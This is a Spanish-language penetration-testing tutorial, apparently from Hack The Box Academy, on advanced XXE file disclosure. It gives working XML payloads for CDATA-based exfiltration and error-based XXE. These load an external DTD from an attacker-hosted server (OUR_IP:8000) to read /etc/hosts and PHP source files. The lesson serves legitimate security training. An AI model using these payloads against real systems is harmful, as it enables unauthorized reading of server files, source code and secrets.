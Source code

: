# Advanced File Disclosure

No todas las vulnerabilidades XXE pueden ser sencillas de explotar, como hemos visto en la sección anterior. Es posible que algunos formatos de archivo no sean legibles a través de XXE básico, mientras que en otros casos, la aplicación web puede no generar ningún valor de entrada en algunos casos, por lo que podemos intentar forzarlo a través de errores.

---

# **Exfiltración avanzada con Cdata**

En la sección anterior, vimos cómo podríamos usar filtros PHP para codificar archivos fuente de PHP, de modo que no romperían el formato XML cuando se hace referencia, lo que (como vimos) nos impidió leer estos archivos. Pero, ¿qué pasa con otros tipos de aplicaciones web? Podemos utilizar otro método para extraer cualquier tipo de datos (incluidos los datos binarios) para cualquier backend de la aplicación web. Para obtener datos que no se ajustan al formato XML, podemos envolver el contenido de la referencia de archivo externo con un`CDATA`Etiqueta (por ejemplo`<![CDATA[ FILE_CONTENT ]]>`). De esta manera, el analizador XML consideraría esta parte de datos sin procesar, que pueden contener cualquier tipo de datos, incluidos los caracteres especiales.

Una manera fácil de abordar este problema sería definir un`begin`entidad interna con`<![CDATA[`, un`end`entidad interna con`]]>`, y luego coloque nuestro archivo de entidad externa en el medio, y debe considerarse como un`CDATA`elemento, como sigue:

Código:xml

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>

```

Después de eso, si hacemos referencia al`&joined;`entidad, debe contener nuestros datos escapados. Sin embargo,`this will not work, since XML prevents joining internal and external entities`, así que tendremos que encontrar una mejor manera de hacerlo.

Para evitar esta limitación, podemos utilizar`XML Parameter Entities`, un tipo especial de entidad que comienza con un`%`personaje y solo se puede usar dentro del DTD. Lo único de las entidades de parámetros es que si las referimos a una fuente externa (por ejemplo, nuestro propio servidor), entonces todos se considerarían externos y se pueden unir, de la siguiente manera:

Código:xml

```xml
<!ENTITY joined "%begin;%file;%end;">
```

Entonces, intentemos leer el`submitDetails.php`Archivo almacenando primero la línea anterior en un archivo DTD (por ejemplo,`xxe.dtd`), alojarlo en nuestra máquina y luego hacer referencia a una entidad externa en la aplicación web de destino, de la siguiente manera:

Divulgación de archivos avanzados

```
xnoxos@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtdxnoxos@htb[/htb]$ python3 -m http.server 8000Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Ahora, podemos hacer referencia a nuestra entidad externa (`xxe.dtd`) y luego imprima el`&joined;`entidad que definimos anteriormente, que debe contener el contenido del`submitDetails.php`Archivo, como sigue:

Código:xml

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->

```

Una vez que escribimos nuestro

```
xxe.dtd
```

archivo, alojarlo en nuestra máquina y luego agregar las líneas anteriores a nuestra solicitud HTTP a la aplicación web vulnerable, finalmente podemos obtener el contenido del

```
submitDetails.php
```

archivo:

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg)

Como podemos ver, pudimos obtener el código fuente del archivo sin necesidad de codificarlo a Base64, lo que ahorra mucho tiempo cuando pasa varios archivos para buscar secretos y contraseñas.

**Nota:**En algunos servidores web modernos, es posible que no podamos leer algunos archivos (como index.php), ya que el servidor web evitaría un ataque de DOS causado por la autorreferencia de archivo/entidad (es decir, el bucle de referencia de entidad XML), como se menciona en la sección anterior.

Este truco puede ser muy útil cuando el método XXE básico no funciona o cuando se trata de otros marcos de desarrollo web.`Try to use this trick to read other files`.

---

# **XXE basado en errores**

Otra situación en la que podemos encontrarnos es una en la que la aplicación web podría no escribir ninguna salida, por lo que no podemos controlar ninguna de las entidades de entrada XML para escribir su contenido. En tales casos, estaríamos`blind`a la salida XML y, por lo tanto, no podría recuperar el contenido del archivo utilizando nuestros métodos habituales.

Si la aplicación web muestra errores de tiempo de ejecución (por ejemplo, errores de PHP) y no tiene un manejo de excepción adecuado para la entrada XML, entonces podemos usar esta falla para leer la salida del Exploit XXE. Si la aplicación web no escribe salida XML ni muestra ningún error, enfrentaríamos una situación completamente ciega, que discutiremos en la siguiente sección.

Consideremos el ejercicio que tenemos en

```
/error
```

Al final de esta sección, en el que ninguna de las entidades de entrada XML se muestra en la pantalla. Debido a esto, no tenemos una entidad que podamos controlar para escribir la salida del archivo. Primero, intentemos enviar datos XML malformados y ver si la aplicación web muestra algún error. Para hacerlo, podemos eliminar cualquiera de las etiquetas de cierre, cambiar una de ellas, para que no se cierre (por ejemplo,

```
<roo>
```

en lugar de

```
<root>
```

), o simplemente hacer referencia a una entidad inexistente, como sigue:

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg)

Vemos que realmente hicimos que la aplicación web muestre un error, y también reveló el directorio del servidor web, que podemos usar para leer el código fuente de otros archivos. Ahora, podemos explotar este defecto para exfiltrar el contenido del archivo. Para hacerlo, utilizaremos una técnica similar a lo que utilizamos anteriormente. Primero, alojaremos un archivo DTD que contenga la siguiente carga útil:

Código:xml

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

```

La carga útil anterior define la`file`Entidad de parámetro y luego se une con una entidad que no existe. En nuestro ejercicio anterior, nos uníamos a tres cuerdas. En este caso,`%nonExistingEntity;`no existe, por lo que la aplicación web arrojaría un error diciendo que esta entidad no existe, junto con nuestro unido`%file;`como parte del error. Hay muchas otras variables que pueden causar un error, como un URI malo o tener malos caracteres en el archivo referenciado.

Ahora, podemos llamar a nuestro script DTD externo y luego hacer referencia al`error`entidad, como sigue:

Código:xml

```xml
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>

```

Una vez que alojamos nuestro script DTD como lo hicimos anteriormente y enviamos la carga útil anterior como nuestros datos XML (no es necesario incluir ningún otro datos XML), obtendremos el contenido del

```
/etc/hosts
```

Archivo de la siguiente manera:

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg)

Este método también se puede usar para leer el código fuente de los archivos. Todo lo que tenemos que hacer es cambiar el nombre del archivo en nuestro script DTD para señalar el archivo que queremos leer (por ejemplo,`"file:///var/www/html/submitDetails.php"`). Sin embargo,`this method is not as reliable as the previous method for reading source files`, ya que puede tener limitaciones de longitud, y ciertos caracteres especiales aún pueden romperlo.